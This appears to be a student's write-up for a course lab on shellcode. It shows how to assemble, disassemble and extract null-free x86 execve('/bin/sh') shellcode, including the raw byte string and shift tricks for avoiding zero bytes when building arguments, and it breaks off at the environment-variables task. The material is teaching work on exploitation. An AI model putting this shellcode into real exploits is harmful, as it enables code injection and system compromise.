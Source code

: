 # Lab 10 - Shellcode

# Task 1.a - the entire process
- compile to object code: `nasm -f elf32 mysh.s -o mysh.o`
- Linking to generate final binary: `ld -m elf_i386 mysh.o -o mysh`
- check shell process: `echo $$`
  > 1
- launch the executable: `./mysh`
- check shell process again: `echo $$`
  > 43
- Getting the machine code: `objdump -Mintel --disassemble mysh.o`
  ```bash
  mysh.o:     file format elf32-i386


  Disassembly of section .text:

  00000000 <_start>:
    0:	31 c0                	xor    eax,eax
    2:	50                   	push   eax
    3:	68 2f 2f 73 68       	push   0x68732f2f
    8:	68 2f 62 69 6e       	push   0x6e69622f
    d:	89 e3                	mov    ebx,esp
    f:	50                   	push   eax
    10:	53                   	push   ebx
    11:	89 e1                	mov    ecx,esp
    13:	31 d2                	xor    edx,edx
    15:	31 c0                	xor    eax,eax
    17:	b0 0b                	mov    al,0xb
    19:	cd 80                	int    0x80

  ```
- use xxd: `xxd -p -c 20 mysh.o`
  ```bash
  7f454c4601010100000000000000000001000300
  0100000000000000000000004000000000000000
  3400000000002800050002000000000000000000
  0000000000000000000000000000000000000000
  0000000000000000000000000000000000000000
  0000000001000000010000000600000000000000
  100100001b000000000000000000000010000000
  0000000007000000030000000000000000000000
  3001000021000000000000000000000001000000
  0000000011000000020000000000000000000000
  6001000040000000040000000300000004000000
  1000000019000000030000000000000000000000
  a00100000f000000000000000000000001000000
  00000000000000000000000031c050682f2f7368
  682f62696e89e3505389e131d231c0b00bcd8000
  00000000002e74657874002e7368737472746162
  002e73796d746162002e73747274616200000000
  0000000000000000000000000000000000000000
  0000000000000000010000000000000000000000
  0400f1ff00000000000000000000000003000100
  08000000000000000000000010000100006d7973
  682e73005f73746172740000
  ```
- "should be" shellcode: `31c050682f2f7368682f62696e89e3505389e131d231c0b00bcd80`
- execute the py script: `./convert.py`
  ```python
  shellcode= (
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50"
   "\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
  ).encode('latin-1')
  ```

---

# Task 1.b - Eliminating Zeros from the Code
## Questions & identify 4 places
### 1-2-3
- lines 5, 17 and 20
  - xor eax/edx
- (sidenote): 
  - pushing a value (not necessarily stored in a register) means writing it to the stack
  - popping means restoring whatever is on top of the stack into a register. 
> Explain why `xor eax, eax` works
- that's basically how the xor works, it's "true" only if the two operands are different, so if you do the xor between the same thing they're always going to be equal hence the result is going to be 0 in any case
### 4
- lines 21
- first it reset eax to 0, and then exploits al to set 0b at the end:
  ```mov   al, 0x0b```

### actual task
- build and run our custom mybash.s:
  `nasm -f elf32 mybash.s -o mybash.o && ld -m elf_i386 mybash.o -o mybash && ./mybash`
- in our custom mybash.sh as last thing we push the first 8 bytes of our instruction (`/bin` ; `/bas`)
- then we use a register to hold a string with the 9th byte of the command (`h`) with a 3-characters placeholder at the end (`###`)
- then we use the shift approach to delete the whole placeholder, in order to have our sweet command (`/bin/bash`)
```asm
mov esi, "h###"
shl esi, 24
shr esi, 24
push esi
push "/bas"
push "/bin"
```
- we could also use the eax register, but in that case we also need to "clean it" afterwards since it's used later, bringing it back to 0:
  ```asm
  mov eax, "h###"
  shl eax, 24
  shr eax, 24
  push eax
  push "/bas"
  push "/bin"
  xor  eax, eax
  ```
- As required, we are not using any redundant `/` neither any 0, but just exploiting one of the "zeroing" mechanism (the shift one)
- in the original script we found the first two approaches explained in the readme used, and we adopted the third one to solve the task.

---

# Task 1.c - Providing Arguments for System Calls
- we took these steps:
  1. push 0 and the shell instruction, then save the stack pointer to ebx
     ```asm
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"       ; [1]
      push "/bin"
      mov  ebx, esp     ; Get the string address
     ```
  2. push another 0 (which will be the termination of the command string)
     ```asm
      push eax 
     ```
  3. save "la" in esi with two placeholders at the end (in order to have 4 bytes) and then replace those with 0s with the shift. then push esi onto the stack (we don't need to save esp now because this part is the continuation of the ls command, argv[2])
     ```asm
      mov esi, "la##"
      shl esi, 16
      shr esi, 16 ; "la00"
      push esi
     ```
  4. push "ls -" onto the stack and save the pointer in ecx
     ```asm
      push "ls -"
      mov ecx, esp
     ```
  5. save "-c" in eax with two placeholders at the end, again replaced by 0s with shift. Then push it and save its pointer to edi
     ```asm
      mov eax, "-c##"
      shl eax, 16
      shr eax, 16 ; "-c00"
      push eax
      mov edi, esp
     ```
  6. push another 0 to terminate the whole string (argv[3])
     ```asm
      xor eax, eax
      push eax
     ```
  7. push the pointers to the various argv and save the pointer of the beginning of argv in ecx
     ```asm
      push ecx
      push edi
      push ebx          
      mov  ecx, esp     
     ```
  8. terminate the program
     ```asm
      ; For environment variable 
      xor  edx, edx     ; No env variables      [4]

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
     ```
- the stack situation at the is:
  ```
    0
    //sh
    /bin <- ebx
    0
    la00
    ls - <- ecx
    -c00 <- edi
    0 <- edx
    0
    ecx -> ls -la
    edi -> -c
    ebx -> /bin/sh
  ```

---

# Task 1.d - Providing Environment Variables for execve()
- the base mechanism for this task is similar to the previous one: we have to prepare the array containing the environment variables